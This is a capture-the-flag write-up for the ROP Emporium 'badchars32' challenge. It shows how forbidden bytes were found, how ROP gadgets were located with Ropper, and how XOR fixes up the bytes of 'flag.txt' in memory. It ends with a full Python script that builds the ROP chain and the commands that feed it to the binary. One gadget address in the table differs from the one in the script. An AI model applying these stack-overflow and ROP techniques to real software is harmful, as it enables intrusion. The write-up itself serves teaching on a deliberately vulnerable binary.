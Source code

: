 # badchars32
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test
The current challenge is actually identical to the previous one, except for the fact that there are some characters we cannot use in the ROP chain. The instructions tell us that the program reveals what those characters are, so let's get started.

```
./badchars32
```
![](./0.png)

So, we are prohibited from using the characters `"x"`, `"g"`, `"a"`, and `"."`. Let's try to see what happens to them when they enter the stack by using all four as a return address (which will obviously crash the program, and when we check where it failed, we will expect to see these characters)

```
perl -e 'print "X"x44 . "xga."' | ./badchars32
```
```
sudo dmesg -k | tail -2
```
![](./1.png)

This means that each of the forbidden characters gets converted to `\xeb` before being written to the stack, and we will need to bypass this.

## In-depth research
This challenge is indeed almost identical to the previous one, so there's no need for an extensive presentation here. I will show how to find the components we need for the ROP chain and the idea I'm going to use.

Let's start by finding where `print_file` is located:
```
rabin2 -i badchars32
```
![](./2.png)

Again, we will use the `.data` section to store the string "flag.txt."

```
readelf -S badchars32 | grep -e '[.]data'
```
![](./3.png)

The more artistic part of this challenge was finding the suitable gadgets and thinking of an idea based on the conditions. Still, there are some general guidelines we already know: we need gadgets that will `pop` values into registers and gadgets that will `mov` values from registers to memory. There also needs to be a correspondence between the registers, especially for the one used to hold the address in the `mov-gadget`. Additionally, we were given a hint to consider using the `XOR` operation. After some research and thought, I found the following gadgets in the picture. Right after this, I will present the idea for how to use them.

Note: Before searching for the gadgets, you need to update Ropper with the forbidden bytes. This is done in Ropper using the command `badbytes`.

```
python3 ~/ropper/Ropper.py
```
```
file badchars32
```
```
badbytes 7867612e
```
```
search pop
```
```
search /1/ mov [%], %
```
```
search /1/ xor
```
![](./4.png)

The general idea is that the string `"flag.txt"` will be entered in parts (like previous challenge). The difference this time is that the characters `"a"`, `"g"`, `"."` and `"x"` will not be entered directly; instead, they will be entered as different characters, such that when we apply `XOR` with the value `0x01` (just for convenience), we will get the corresponding letter. For example, if we input `"AAA\x60"` and then apply `\x01 ^ \x60`, we get `\x61 (='a')` (So `"AAA\x60"` -> `"AAAa"`). After we handle all the necessary indexes in the current part of the string, we will input the next part in the same way.

From the gadgets we've collected, the usage of the registers is as follows:

* `EBP` will hold the address of the byte on which we will perform `XOR`.
* `EBX` will always hold the value `0x01` in the low byte (`BL`) for `XOR`.
* `ESI` will hold the characters of the string while transitioning to the `.data` section.
* `EDI` will hold the address of the `.data` section where we will transfer the characters of the string.

To summarize:
* To create `"flag"`:
    * We will input `"fl\x60f"`
    * Perform `0x01` XOR `0x60` => `"a"`
    * Perform `0x01` XOR `"f"` => `"g"`
* To create `".txt"`:
    * We will input `"\x2ftyt"`
    * Perform `0x01` XOR `0x2f` => `"."`
    * Perform `0x01` XOR `"y"` => `"x"`

And that was the idea. Now let's proceed to the complete solution.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                  | Note                                                                                        |
|----|-------------------------------------------------------------|---------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |                                                                                             |
| 2  | pop_bx, 0x01010101                                          | The lower byte will be used later for XOR operations.                                       |
| 3  | pop_si_di_bp, `"fl\x60f"`, memory4string, memory4string+2   | Each update of the EBP register sets it to the address of the next byte that will be XORed. |
| 4  | mov2memory                                                  | After this operation, the string will be `"fl\x60f"`.                                       |
| 5  | xor2memory                                                  | After this operation, the string will be `"flaf"`.                                          |
| 6  | pop_bp, memory4string+3                                     |                                                                                             |
| 7  | xor2memory                                                  | After this operation, the string will be `"flag"`.                                          |
| 8  | pop_si_di_bp, `"\x2ftyt"`, memory4string+4, memory4string+4 |                                                                                             |
| 9  | mov2memory                                                  | After this operation, the string will be `"flag\x2ftyt"`.                                   |
| 10 | xor2memory                                                  | After this operation, the string will be `"flag.tyt"`.                                      |
| 11 | pop_bp, memory4string+6                                     |                                                                                             |
| 12 | xor2memory                                                  | After this operation, the string will be `"flag.txt"`.                                      |
| 13 | print_file, "XXXX", memory4string                           |                                                                                             |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./badchars32
```
![](./5.png)

Heyda!!!
